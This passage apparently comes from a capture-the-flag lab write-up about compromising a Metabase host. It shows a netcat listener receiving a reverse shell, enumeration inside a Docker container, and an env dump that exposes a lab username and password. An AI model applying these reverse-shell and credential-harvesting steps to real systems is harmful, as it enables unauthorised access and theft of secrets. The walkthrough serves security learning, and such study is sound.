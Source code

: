 Before, our listener on port 443 to receive the reverse shell is already running

```bash 
# nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.192] from (UNKNOWN) [10.10.11.233] 37444
bash: cannot set terminal process group (1): Not a tty
bash: no job control in this shell
be8428fb98ab:/$ 
```

And it worked, We get a shell, 

```bash 
4e9d4f66487b:/$ ifconfig
ifconfig
eth0      Link encap:Ethernet  HWaddr 02:42:AC:11:00:02  
          inet addr:172.17.0.2  Bcast:172.17.255.255  Mask:255.255.0.0
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:5185 errors:0 dropped:0 overruns:0 frame:0
          TX packets:7403 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:0 
          RX bytes:1390223 (1.3 MiB)  TX bytes:9023893 (8.6 MiB)

lo        Link encap:Local Loopback  
          inet addr:127.0.0.1  Mask:255.0.0.0
          UP LOOPBACK RUNNING  MTU:65536  Metric:1
          RX packets:0 errors:0 dropped:0 overruns:0 frame:0
          TX packets:0 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000 
          RX bytes:0 (0.0 B)  TX bytes:0 (0.0 B)

```

but it seems we are inside a container, with  IP address: 172.17.0.2.

So we will need to escape from it in order to get access to the user's flag.


When I am inside a container I like to start my enumeration running "env" command to check if there is any environtment variable exposed 

```bash 
4e9d4f66487b:/metabase.db$ env
env
SHELL=/bin/sh
MB_DB_PASS=
HOSTNAME=4e9d4f66487b
LANGUAGE=en_US:en
MB_JETTY_HOST=0.0.0.0
JAVA_HOME=/opt/java/openjdk
MB_DB_FILE=//metabase.db/metabase.db
PWD=/metabase.db
LOGNAME=metabase
MB_EMAIL_SMTP_USERNAME=
HOME=/home/metabase
LANG=en_US.UTF-8
META_USER=metalytics
META_PASS=An4lytics_ds20223#
MB_EMAIL_SMTP_PASSWORD=
USER=metabase
SHLVL=4
MB_DB_USER=
FC_LANG=en-US
LD_LIBRARY_PATH=/opt/java/openjdk/lib/server:/opt/java/openjdk/lib:/opt/java/openjdk/../lib
LC_CTYPE=en_US.UTF-8
MB_LDAP_BIND_DN=
LC_ALL=en_US.UTF-8
```